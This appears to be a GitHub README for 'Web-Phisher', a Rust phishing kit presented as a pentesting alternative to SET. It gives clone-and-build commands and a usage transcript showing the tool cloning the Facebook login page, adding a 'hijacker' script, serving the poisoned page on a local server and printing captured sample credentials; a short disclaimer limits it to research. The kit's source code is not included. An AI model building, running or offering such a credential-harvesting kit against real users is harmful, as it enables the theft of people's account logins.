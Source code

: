 ## Descripción

Web-Phisher is a pentesting and social engineering tool that is thought and inspired as an alternative to [SET](https://github.com/trustedsec/social-engineer-toolkit)
### **Disclaimer**

This software, "Web-Phisher," has been developed solely for research and awareness purposes in the field of computer security. The use of this tool for illegal or malicious activities is strictly prohibited. The author and contributors of this software do not assume any responsibility for any misuse that may occur with this tool.

*It is the user's responsibility to ensure that the use of this tool complies with all local laws and regulations, and to obtain proper consent before conducting tests on systems or networks that do not belong to them.*
## Platforms

- Mac OS X
- Windows
- Linux
## Compilation

Rust is needed for this task

Get it from its official site:  [rust-lang.org](https://www.rust-lang.org/)

```bash
git clone https://github.com/nonskilledeveloper/web-phisher web-phisher/
cd web-phisher
sudo cargo build --release
```
## Usage example

```bash
~/devs/hacking/web-phisher-release 0.1 
ls
web-phisher
~/devs/hacking/web-phisher-release 0.1 
sudo ./web-phisher
Web Phisher - Loading ...

🥚 🐣 🐥 🐓

By nonskilledeveloper

You can clone one of the following sites:
-------------------------------------------
1) Facebook        | 2) Gmail  | 3) Tiktok |
4) Facebook Mobile | 5) Soon...|           |
-------------------------------------------
1
Cloning URL: https://web.facebook.com/login
Site cloned successfully
Adding Hijaker Script...
Site is now poisoned!
Starting Server...
Server running on: http://192.168.101.6:80/
```

![https://github.com/nonskilledeveloper/web-phisher/blob/master/IMG/Pasted%20image%2020230917232337.png](Server Running)
This is how it looks when the credentials are captured

```bash
Data Found: Json: Credentials { email: "nonskilledev@hackermail.com", pass: "h4ck3rpass#" }
```
## Pugs?

![https://github.com/nonskilledeveloper/web-phisher/blob/master/IMG/Pug1-modified.png](pug)

If you find any bug or pug, feel free to report it [here](https://github.com/nonskilledeveloper/web-phisher/issues) 
